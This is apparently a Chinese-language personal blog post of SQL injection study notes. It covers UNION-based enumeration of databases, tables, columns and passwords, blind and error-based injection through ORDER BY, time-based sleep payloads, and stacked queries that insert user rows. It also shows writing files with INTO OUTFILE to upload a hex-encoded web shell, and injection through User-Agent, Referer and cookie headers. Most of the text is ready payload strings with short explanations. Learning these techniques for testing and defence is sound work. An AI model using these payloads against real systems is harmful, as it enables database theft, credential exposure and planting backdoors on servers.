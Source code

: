 ```yaml
---
published: true
---
```


### Union注入漏洞存在时注入步骤：
1、order by num 来判断这个表有多少个字段  
2、知道字段数后，可以利用union查询 union select 1，2，3.。。num FROM 表名  
 例如：id=1 UNION SELECT 1，2，3，table_schema FROM information_schema.TABLES //来查询数据库名。
  可能要求 UNION SELECT 1，2，3，(select table_schema FROM information_schema.TABLES)才能成功
3、id=1 UNION SELECT 1，2，3，group_concat(table_name) FROM information_schema.TABLES where table_schema=‘想要查询的数据库名字’ //查询所选数据库中所有的表名
4、union select 1，2，3，group_concat(column_name) from information_schema.COLUMNS where table_schema=’数据库名’ and table_name=‘表名’//查询表中的字段名
5、知道pass段名有user union select 1，2，3，pass from user

### Order by注入：
当原始sql语句是order by时不能使用union等进行注入
1、可以使用rand()函数，如果order by rand(true)和order by rand(false)的结果不同，就可以进行盲注。(rand()产生随机数）
![](ljjbloghub.github.io/img/SQL1.jpg)
   
   rand(ascii(substr(database(),1,1)) > 100)根据结果返回值判断真假。
2、报错注入
![](ljjbloghub.github.io/img/SQL1.jpg)
sort=（extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() ) )) ）#字符型考虑闭合’and (extractvalue)—+
3、导入导出文件into outfile参数
    ?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt”
    然后考虑上传网马，利用lines terminated by。
    ?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt” terminated by 0x(网马进行16进制转换)
4、延时注入
？sort=1’ and if(ascii(substr(database(),1,1))>100,0,sleep(5) )—+
#(如果为假，就会有延迟)，if(判断,sleep(),1)为真会有延迟


### 堆叠查询：即构成多个语句，每一条语句结尾加 ; 表示语句结束。并不是每一个环境下都可以执行
   id=1%27;insert into users(id,username,password) values (‘40’,’Ren’,’hello’)

### user-agent头存在注:同理 referer
在服务器能够获取ua信息时却对ua内容没有进行过滤时，通过burp使用报错注入
![]({{site.baseurl}}/https://github.com/ljjbloghub/ljjbloghub.github.io/blob/master/img/sql2.jpg)

报错信息’）要需求多构造）

![]({{site.baseurl}}/https://github.com/ljjbloghub/ljjbloghub.github.io/blob/master/img/sql3.jpg)


### cookie注入：
对cookie的值进行union注入,注意cookie是否经过编码
